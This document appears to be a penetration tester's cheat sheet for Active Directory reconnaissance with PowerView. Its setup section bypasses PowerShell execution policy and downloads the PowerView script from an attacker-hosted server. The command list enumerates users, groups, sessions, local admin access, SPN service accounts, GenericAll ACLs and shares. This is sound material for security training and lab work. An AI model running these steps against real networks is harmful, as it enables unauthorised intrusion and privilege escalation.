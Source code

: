 ### Setup ([https://powersploit.readthedocs.io/en/latest/Recon/](https://powersploit.readthedocs.io/en/latest/Recon/))
```
powershell -ep bypass

iwr -uri http://192.168.45.154:8000/powerview.ps1 -Outfile powerview.ps1

Import-Module .\PowerView.ps1
```

### Commands

#### Enumerating Domain
```
Get-NetDomain
```
#### Enumerating Users
```
Get-NetUser
Get-NetUser <username>
Get-NetUser | select <attribute>,<attribute>,<attribute>
```
#### Enumerating Groups
```
Get-NetGroup
Get-NetGroup <groupname>
Get-NetGroup | select <attribute>,<attribute>,<attribute>
Get-NetGroup | Where-Object { $_.member -like "<user>*" } | Select-Object cn, member - show all groups member is a apart of.
```
#### Enumerating Computer Information
```
Get-NetComputer
Get-NetComputer | select dnshostname,<attribute>
```

#### Understanding Privileges
```
Find-LocalAdminAccess - attempts to find any computer that the current user has administrative privileges on.
Get-NetSession -ComputerName <computername> - attempts identify which user is logged into what computer.
.\PsLoggedon.exe [\\<computername>](file://%3ccomputername%3e) - enumerates who is logged into a computer.
```
#### Service Accounts
```
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```

#### Enumerating Object Permissions
```
Get-ObjectAcl -Identity <users> - enumerates all objects that has an ACL entry for a particular user.
Convert-SidToName <SID>

#check if user has GeneralAll property this is the highest privilege within AD.
Get-ObjectAcl -Identity "Backup Operators" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

Find-InterestingDomainAcl | select IdentityReferenceName,ActiveDirectoryRights,AceType,ObjectDN,SecurityIdentifier | ?{$_.IdentityReferenceName -NotContains "DnsAdmins"}
```

#### Enumerating Shares
```
Find-DomainShare
net view \\<hostname\ip>
ls \\<hostname>\<sharename>\
cat \\<hostname>\<sharename>\
```